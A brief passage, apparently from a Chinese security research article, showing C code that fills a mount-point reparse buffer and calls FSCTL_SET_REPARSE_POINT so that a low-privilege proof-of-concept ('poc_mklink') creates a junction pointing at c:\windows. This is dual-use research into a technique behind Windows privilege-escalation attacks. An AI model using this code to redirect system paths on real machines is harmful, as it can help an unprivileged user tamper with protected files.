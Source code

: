 ```
DWORD buffsize ;
pBuffer = (PREPARSE_DATA_BUFFER)malloc(sizeof(REPARSE_DATA_BUFFER) + (wcslen(NtPath) + wcslen(wdospath)) * 2 + 2);

pBuffer->ReparseTag = IO_REPARSE_TAG_MOUNT_POINT;
pBuffer->ReparseDataLength = sizeof(REPARSE_DATA_BUFFER) + (wcslen(NtPath) + wcslen(wdospath)) * 2 - 8 ;
pBuffer->Reserved = 0 ; 
pBuffer->MountPointReparseBuffer.SubstituteNameLength = wcslen(NtPath) * 2 ;
pBuffer->MountPointReparseBuffer.SubstituteNameOffset = 0 ; 
pBuffer->MountPointReparseBuffer.PrintNameLength = wcslen(wdospath) * 2 ;
pBuffer->MountPointReparseBuffer.PrintNameOffset = wcslen(NtPath) * 2 + 2 ; 
memcpy((PCHAR)pBuffer->MountPointReparseBuffer.PathBuffer , (PCHAR)NtPath , wcslen(NtPath) * 2 + 2);
memcpy((PCHAR)((PCHAR)pBuffer->MountPointReparseBuffer.PathBuffer + wcslen(NtPath) * 2 + 2) ,
 (PCHAR)wdospath ,
 wcslen(wdospath) * 2 + 2) ; 
buffsize = sizeof(REPARSE_DATA_BUFFER) + (wcslen(NtPath) + wcslen(wdospath)) * 2 ;

DeviceIoControl(hlink , FSCTL_SET_REPARSE_POINT , pBuffer , buffsize, NULL , 0 , &btr , 0 );

```

测试程序成功的截图如下：

可以看到低权限的poc_mklink成功创建目录1，链接到c:\windows的junction。

![enter image description here](http://drops.javaweb.org/uploads/images/0876ba4050e3f7f7375fa073502dee4f2211dda4.jpg)